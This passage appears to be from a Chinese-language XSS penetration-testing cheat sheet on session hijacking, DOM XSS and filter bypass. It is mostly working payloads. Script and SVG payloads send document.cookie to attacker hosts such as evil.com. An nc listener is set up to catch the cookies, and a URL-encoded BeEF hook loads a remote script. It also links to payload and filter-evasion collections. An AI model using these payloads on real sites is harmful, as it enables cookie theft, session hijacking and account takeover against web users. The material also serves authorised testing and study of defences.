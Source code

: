 另外一个：

```
<script>new Image().src="http://evil.com:8090/b.php?"+document.cookie;</script>
```

比较不错的一个payload：

```
<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

nc 监听：

```
nc -lvp 8090
```

### 测试session劫持

利用burp重放功能进行测试。
看不同cookie会有什么变化。

### FILTER BYPASS RESOURCES

收集到的payload：

```
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://bittherapy.net/a-trick-to-bypass-an-xss-filter-and-execute-javascript/
https://support.portswigger.net/customer/portal/articles/2590820-bypassing-signature-based-xss-filters-modifying-script-code
https://brutelogic.com.br/blog/avoiding-xss-detection/
https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec
```

### 基于POST的XSS

如果遇到无法将基于POST的XSS转换为GET请求的情况(可能目标服务器上禁用了GET请求)，试试CSRF。

### DOM XSS

```
<target.com>/#<img/src/onerror=alert("XSS")>
```

beef的hook，urlencode

```
<target.com>/#img/src/onerror=$("body").append(decodeURIComponent('%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%3a%2f%2f%3c%65%76%69%6c%20%69%70%3e%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%3e%3c%2f%73%63%72%69%70%74%3e'))>
#<img/src="1"/onerror=alert(1)>
#><img src=x onerror=prompt(1);>
```

这些站点有大量的xss payload

```
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS injection
https://zseano.com/tutorials/4.html
https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md
http://www.smeegesec.com/2012/06/collection-of-cross-site-scripting-xss.html
http://www.xss-payloads.com/payloads-list.html?a#category=all
```
